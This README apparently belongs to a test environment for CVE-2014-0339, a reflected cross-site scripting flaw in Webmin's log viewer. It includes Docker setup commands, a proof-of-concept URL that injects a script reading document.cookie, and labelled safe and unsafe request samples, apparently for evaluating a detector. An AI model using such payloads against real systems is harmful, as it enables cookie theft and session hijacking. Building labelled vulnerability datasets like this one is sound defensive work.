 # webmin

## Building information

```console
$ docker build -t webmin ./
$ docker run -d -it --rm --name webmin -p 8080:80 webmin
```

## Vulnerability Details

- CVE-2014-0339
- https://github.com/webmin/webmin/commit/3b6234b511f97d18f4941c618ac594e73d8f7bda

### PoC

`http://localhost:8080/webminlog/view.cgi?id=1&search=e"><script>alert(document.cookie);</script>`

## Datasets

### Safe

- <./datasets/safe-1.html>
  - `http://localhost:8080/webminlog/view.cgi?id=1495700059.929.0&return=&returndesc=&search=uall%3D1%26mall%3D1%26module%3Dglobal%26tall%3D2%26from_d%3D%26from_m%3D1%26from_y%3D%26to_d%3D%26to_m%3D1%26to_y%3D%26desc%3D%26long%3D0`
- <./datasets/safe-2.html>
  - `http://localhost:8080/webminlog/view.cgi?id=1495700630.1031.0&return=&returndesc=&search=uall%3D1%26mall%3D1%26module%3Dglobal%26tall%3D2%26from_d%3D%26from_m%3D1%26from_y%3D%26to_d%3D%26to_m%3D1%26to_y%3D%26desc%3D%26fall%3D1%26file%3D%26dall%3D1%26diff%3D%26long%3D0`
- <./datasets/safe-3.html>
  - `http://localhost:8080/webminlog/view.cgi?id=1495700059.929.0&return=&returndesc=&search=uall%3D1%26mall%3D1%26module%3Dglobal%26tall%3D1%26from_d%3D%26from_m%3D1%26from_y%3D%26to_d%3D%26to_m%3D1%26to_y%3D%26desc%3D%26fall%3D1%26file%3D%26dall%3D1%26diff%3D%26long%3D0`

### Unsafe

- <./datasets/xss-1.html>
  - `http://localhost:8080/webminlog/view.cgi?id=1495700630.1031.0&return=&returndesc=&search=e%22%3E%3Cscript%3Ealert(document.cookie);%3C/script%3E`
